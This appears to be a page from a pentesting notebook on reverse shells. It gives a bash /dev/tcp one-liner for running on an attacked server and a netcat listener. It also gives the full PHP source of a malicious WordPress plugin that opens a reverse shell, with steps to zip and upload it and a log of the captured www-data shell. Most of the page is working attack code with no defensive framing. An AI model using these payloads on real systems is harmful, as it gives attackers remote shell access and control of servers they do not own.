 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Reverse Shell

### Reverse Shell via Bash TCP

We start by Listening in our host first `~$ nc -nvlp PORT_NUMBER` ; then we execute the below command on the attacked server:

{% hint style="info" %}
To ensure our reverse shell is executed via bash, make sure to add `bash -c`&#x20;
{% endhint %}

```bash
bash -c "bash -i >& /dev/tcp/IP_ADDRESS/PORT_NUMBER 0>&1"
```

Check this [Reverse Shell Cheat Sheet](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/) by swissky.

### Reverse Shell via Wordpress Plugin

Create a new wordpress plugin using the simple php file below

```php
<?php

/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Vince Matteo
* Author URI: http://www.sevenlayers.com
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/127.0.0.1/443 0>&1'");
?>
```



In order to upload the shell as a plugin, we need to zip it first then upload it as a plugin via `wp-admin`

```sh
zip reverse-shell.zip reverse-shell.php
```



<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

after activating it,  use netcat to listen on port 443 and catch the shell

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -lvp 443                          
listening on [any] 443 ...
connect to [IP_ADDRESS] from [IP_ADDRESS]
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@example:/var/www/html/wp-admin$ pwd
pwd
/var/www/html/wp-admin
```



**Resources:**

* [https://sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell](https://sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell)
* [https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#bash-tcp](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#bash-tcp)
